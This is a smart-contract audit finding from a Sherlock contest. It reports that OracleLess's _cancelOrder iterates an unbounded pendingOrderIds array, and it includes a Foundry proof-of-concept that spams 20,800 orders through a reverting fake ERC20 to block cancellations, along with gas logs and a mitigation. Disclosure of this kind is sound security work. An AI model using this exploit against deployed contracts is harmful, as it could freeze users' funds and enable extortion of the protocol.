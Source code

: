 # Issue M-10: cancelOrder order can be DOSed due to unbounded loop.
Source: https://github.com/sherlock-audit/2024-11-oku-judging/issues/589

Found by
056Security, 0x0x0xw3, 0x37, 0xNirix, 0xaxaxa, 0xeix, 0xlucky, Audinarey, Boy2000, Chinedu, Contest-Squad, ExtraCaterpillar, John44, Kenn.eth, Opeyemi, PeterSR, Ragnarok, Tri-pathi, ami, befree3x, bughuntoor, future2_22, gajiknownnothing, hals, iamandreiski, itcruiser00, joshuajee, mxteem, oualidpro, phoenixv110, rahim7x, s0x0mtee, vinica_boy, whitehair0330, xiaoming90, ***yuza101***, zhoo, zxriptor

Summary
The pendingOrderIds arrays can grow too large making it impossible to cancel subsequent legitimate pending orders, this will create a permanent DOS for the _cancelOrder no one will be able to cancel orders not admin nor order reciepient.

Root Cause
The root cause of the issue lies in the _cancelOrder function that loops through the pendingOrderIds in search of the right one because this pendingOrderIds array can grow too large a DOS is bound to happen and this can be exploited by a hacker to ransomware the protocol.

https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L151
```
    function _cancelOrder(Order memory order) internal returns (bool) {  
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {  
            if (pendingOrderIds[i] == order.orderId) {  
                //remove from pending array  
                pendingOrderIds = ArrayMutation.removeFromArray(  
                    i,  
                    pendingOrderIds  
                );  
  
                //refund tokenIn amountIn to recipient  
                order.tokenIn.safeTransfer(order.recipient, order.amountIn);  
  
                //emit event  
                emit OrderCancelled(order.orderId);  
  
                return true;  
            }  
        }  
        return false;  
    }  
``` 
Internal pre-conditions
No response

External pre-conditions
No response

Attack Path
Attacker creates a malicious ERC20 token with fake transfers to ease the gas cost for this attack.
Attacker Creates 20800 orders using a worthless token as tokenIn, demanding 1 USDC per order.
They make it impossible for the admin to cancel the order because they deliberately revert the transfer on their malicious contract.
After this legitimate users will not be able to cancel order.
Impact
The cancelOrder function won't work and it will cost around $150 dollar to do it.
There is a financial ransomware gain where the attacker can set high tokens out and force the admin to pay more money for their worthless token, so this is incentivized.
PoC
Follow these steps to add foundry to the contract https://hardhat.org/hardhat-runner/docs/advanced/hardhat-and-foundry

Install open zeppelin contracts
```
forge install https://github.com/OpenZeppelin/openzeppelin-contracts.git --no-commit
```
  
Copy and paste the code snippet below in the /test/ folder.
```
// SPDX-License-Identifier: MIT  
pragma solidity ^0.8.24;  
  
import "forge-std/Test.sol";  
import "forge-std/console.sol";  
import {ERC20Mock} from "openzeppelin-contracts/contracts/mocks/token/ERC20Mock.sol";  
import { AutomationMaster } from "../contracts/automatedTrigger/AutomationMaster.sol";  
import { OracleLess } from "../contracts/automatedTrigger/OracleLess.sol";  
import "../contracts/interfaces/uniswapV3/IPermit2.sol";  
import "../contracts/interfaces/openzeppelin/ERC20.sol";  
import "../contracts/interfaces/openzeppelin/IERC20.sol";  
  
contract FakeERC20 {  
    function transfer(address to, uint256 amount) external returns (bool) {   
        revert("HACKED!");  
        return false;  
    }  
  
    function transferFrom(address from, address to, uint256 amount) external returns (bool) {   
        return true;  
    }  
  
}  
  
contract PocTest is Test {  
  
    AutomationMaster automationMaster;  
    OracleLess oracleLess;  
    IPermit2 permit2;  
    IERC20 fakeErc20;  
    IERC20 realToken;  
  
    address attacker = makeAddr("attacker");  
    address alice = makeAddr("alice");  
  
    function setUp() public {  
        automationMaster = new AutomationMaster();  
        oracleLess = new OracleLess(automationMaster, permit2);  
        fakeErc20 = IERC20(address(new FakeERC20()));  
        realToken = IERC20(address(new ERC20Mock()));  
        //MINT  
        ERC20Mock(address(realToken)).mint(alice, 100 ether);  
    }  
  
    function testDosAttack() public {  
        uint96 orderId;  
        uint gasUsed = gasleft();  
        vm.startPrank(alice);  
        realToken.approve(address(oracleLess), 100 ether);  
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');  
        gasUsed = gasleft();  
        oracleLess.cancelOrder(orderId);  
        console.log("Normal Cancel Gas Usage        : ", gasUsed - gasleft());  
        vm.stopPrank();  
  
        vm.startPrank(attacker);  
        gasUsed = gasleft();  
        for (uint i = 0; i < 20800; i++)  
            oracleLess.createOrder(fakeErc20, fakeErc20, 1, 1, attacker, 10, false, '0x0');  
        console.log("Attack Gas Usage               : ", gasUsed - gasleft());  
        vm.stopPrank();  
  
        vm.startPrank(alice);  
        gasUsed = gasleft();  
        orderId = oracleLess.createOrder(realToken, realToken, 1 ether, 1, alice, 1, false, '0x0');  
        oracleLess.cancelOrder(orderId);  
        console.log("After Attack Cancel Gas Usage  : ", gasUsed - gasleft());  
        vm.stopPrank();  
    }  
  
}
```  
Output
```
[PASS] testDosAttack() (gas: 444968053)  
Logs:  
  Normal Cancel Gas Usage        :  9439  
  Attack Gas Usage               :  394889776  
  After Attack Cancel Gas Usage  :  30294277
```
From the test output, we can see that 20800 order is enough to cause a DOS on the cancelOrder function, and it will cost the attacker 394889776 is about $150 dollar.

Mitigation
Create a fuction that can use the index to cancel order.

### All findings report
https://audits.sherlock.xyz/contests/641/report
